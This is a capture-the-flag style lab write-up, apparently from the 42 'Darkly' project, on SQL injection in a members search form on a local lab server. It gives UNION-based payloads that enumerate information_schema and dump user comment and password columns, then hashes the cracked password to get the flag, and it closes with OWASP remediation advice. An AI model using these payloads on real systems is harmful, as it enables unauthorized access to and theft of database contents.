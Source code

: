 # SQL Injection (MEMBERS)

On [Members page](http://192.168.56.101/index.php?page=member) a form allows to search information on a given member using its ID number.
<details>
<summary>IDs 0 to 5</summary>

![id0to5](https://user-images.githubusercontent.com/22397481/207928622-834fdf21-ae87-47c8-bca3-e282f4c82a5c.gif)
</details>

Let's see if we can attack this page with SQL Injection technique, by putting a `'`, a quote character. (if the error message like below prints, it means the environment is vulnerable for SQL Injection)

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

with this error message we are getting, we could try using the attack queries to see if we can get the informations, with understanding of following information:

- [Understanding MariaDB Architecture](https://mariadb.com/kb/en/understanding-mariadb-architecture/#:~:text=MariaDB%20does%20not%20support%20the,table%20they%20have%20permissions%20for.)
- [SQL UNION Operator](https://www.w3schools.com/sql/sql_union.asp)

So by it means, in `information_schema`, all the information of the databases can be found, and by quering to it directly, it will be possible to get information of databases, with using `UNION` operator, there is a chance a query can retrieve data from `information_schema`. There are [lists of tables](https://dev.mysql.com/doc/refman/8.0/en/general-information-schema-tables.html), and we are going to use couple of them


Following query will bring the information of all the tables created on the database
```sql
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables
```
and with the list of [General Table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html), we can find the table `users` is listed on the result.

From running this query, we can grab all the column names from each table, as well.

```sql
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
by searching the `users`, following columns are exist on the table `users`

```
user_id, first_name, last_name, town, country, planet, Commentaire, countersign
```

By tring all the columns, with using columns `Commentaire`, and `Countersign`, the following message can be reterived, with this query

```sql
1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
```
![1 AND 1=1 UNION SELECT Commentaire, countersign FROM users](https://user-images.githubusercontent.com/22397481/209451385-c97a6a2b-0a89-440d-810d-5262b6d63877.jpeg)

as it shows, let's decrypt the password
```sql
ID: 1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Following the instruction, convert the string to lowercase and compute SHA256 digests.
```shell
┌──$ [~/42/2022/darkly]
└─>  echo -n FortyTwo | tr -s A-Z a-z | openssl dgst -sha256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```


## Remediation
A SQL Injection is an attack of injectin query through the input data from the client to the application. It can cause modify, removal, or admin operation to the databases. This can happen when unintended data enters a program from an untrusted source, or the data is used to dynamically construct a SQL query.

In order to prevent,

- Use of Prepare Statements (with Parameterized Queries)
- Use of properly construed stored Procedures
- Allow-list input valiation
- Escaping All User Supplied Input

See More:

- [SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
